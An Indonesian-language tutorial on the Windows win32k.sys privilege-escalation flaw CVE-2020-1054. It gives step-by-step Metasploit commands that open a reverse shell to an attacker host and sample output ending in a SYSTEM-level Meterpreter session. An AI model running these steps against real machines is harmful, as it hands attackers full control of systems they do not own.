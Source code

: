 # CVE-2020-1054

## A. Apa itu CVE-2020-1054?

[CVE-2020-1054](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1054) adalah kerentanan Local Privilege Escalation (LPE) pada driver kernel Windows, yaitu `win32k.sys`. Kerentanan ini memungkinkan penyerang yang telah mendapatkan akses sebagai user biasa untuk mengeksekusi kode arbitrer dalam mode kernel dan memperoleh hak akses tertinggi di sistem (`NT AUTHORITY\SYSTEM`).

Eksploitasi ini terjadi karena kurangnya validasi dalam manipulasi koordinat memori pada objek `tagWND` melalui fungsi `ScrollWindowEx`, yang memungkinkan `write-what-where primitive` di kernel space. Modul eksploit di Metasploit memanfaatkan kelemahan ini melalui fungsi `DrawIconEx`.

## B. Detail Teknis:
- CVE ID: `CVE-2020-1054`
- Tanggal Rilis: `12 Mei 2020`
- Tipe: Local Privilege Escalation (LPE)
- Komponen: `win32k.sys`
- Arsitektur: `x86` dan `x64`
- Platform: `Windows`

## C. Sistem yang Rentan

Untuk melihat semua sistem yang rentan terhadap `CVE-2020-1054`, anda bisa melihatnya di dokumentasi resmi Microsoft: [https://msrc.microsoft.com/update-guide/en-US/advisory/CVE-2020-1054](https://msrc.microsoft.com/update-guide/en-US/advisory/CVE-2020-1054)

## D. Langkah Penggunaan di Metasploit:

1. Dapatkan Akses Awal (User Biasa):

   ```
   msf6 > sessions          # Lihat sesi yang ada
   msf6 > sessions -i 1     # Masuk ke sesi dengan ID 1
   msf6 > getuid            # Melihat user saat ini
   msf6 > sysinfo           # Informasi sistem target
   ```

2. Keluar dari Sesi Meterpreter:
   
   ```
   msf6 > background
   ```

3. Gunakan Exploit CVE-2020-1054:

   ```
   msf6 > use exploit/windows/local/cve_2020_1054_drawiconex_lpe
   ```

4. Setting Parameter Penting:

   ```
   msf6 > set SESSION <ID>
   msf6 > set PAYLOAD <PAYLOAD>
   msf6 > set LHOST <IP_ATTACKER>
   msf6 > set LPORT <PORT_LISTENER>
   msf6 > set TARGET <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```

5. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] Started reverse TCP handler on 192.168.1.42:4444 
   [*] Running automatic check ("set AutoCheck false" to disable)
   [*] win32k.sys file version: 6.1.7601.17514 branch: 17
   [+] The target appears to be vulnerable.
   [*] Executing exploit...
   [*] Launching netsh to host the DLL...
   [+] Process 1204 launched.
   [*] Reflectively injecting the DLL into 1204...
   [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
   [*] Sending stage (203846 bytes) to 192.168.1.50
   [*] Meterpreter session 22 opened (192.168.1.42:4444 -> 192.168.1.50:49181) at 2025-05-14 18:38:33 +0700

   meterpreter >
   ```

   Itu artinya kita sudah mendapatkan akses tertinggi dari sistem. Untuk mengeceknya, ketikkan perintah berikut:

   ```
   meterpreter > getuid 
   ```

   Hasil output-nya seperti ini:

   ```
   meterpreter > getuid 
   Server username: NT AUTHORITY\SYSTEM
   meterpreter > 
   ```

   > Keterangan: `NT AUTHORITY\SYSTEM` adalah akun tertinggi di sistem Windows itu setara dengan `root` pada sistem Linux.
